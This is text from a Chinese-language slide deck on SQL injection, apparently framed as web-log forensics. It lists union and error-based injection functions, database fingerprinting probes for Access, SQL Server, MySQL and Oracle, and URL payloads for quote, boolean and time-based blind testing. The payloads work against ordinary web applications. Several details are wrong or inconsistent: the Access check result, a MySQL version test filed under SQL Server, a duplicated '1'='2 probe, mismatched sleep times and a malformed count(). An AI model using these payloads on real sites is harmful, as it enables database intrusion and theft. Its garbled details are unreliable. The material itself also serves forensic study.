

通过各种注入语句进行SQL注入攻击：
联合查询注入
union select
order by
报错注入(常见报错注入函数)
floor()
extractvalue()
updatexml()
···
常见数据库类型判断
ACCESS
and (select count () from sysobjects)>0返回异常
and (select count () from msysobjects)>0返回异常
SQLSERVER
and (select count () from sysobjects)>0返回正常
and (select count () from msysobjects)>0返回异常
and left(version(),1)=5%23参数5也可能是4
MYSQL
id=2 and version()>0返回正常
id=2 and length(user())>0返回正常
id=2 CHAR(97, 110, 100, 32, 49, 61, 49)返回正常
Oracle
and length (select user from dual)>0返回正常
Web日志取证——SQL注入
漏洞特征：存在SQL注入语句
通过报错注入、布尔盲注、时间盲注判断是否存在注入：
字符型
参数后加单引号，报错：sql1.php?name=admin'
参数后加' and '1'='2和' and '1'='2，访问正常：sql1.php?name=admin' and '1'='1 /sql1.php?name=admin' and '1'='2
参数后加' and sleep(3) --，是否延迟3秒打开：sql1.php?name=admin' and/or sleep(3)--
数字型
参数后加单引号，报错:sql2.php?id=1'
参数后加and 1=1和and 1=2，访问正常：sql2.php?id=1 and 1=1/sql2.php?id=1 and 1=2
参数后加and sleep(5)，是否延迟3秒打开：sql2.php?id=1 and sleep(5)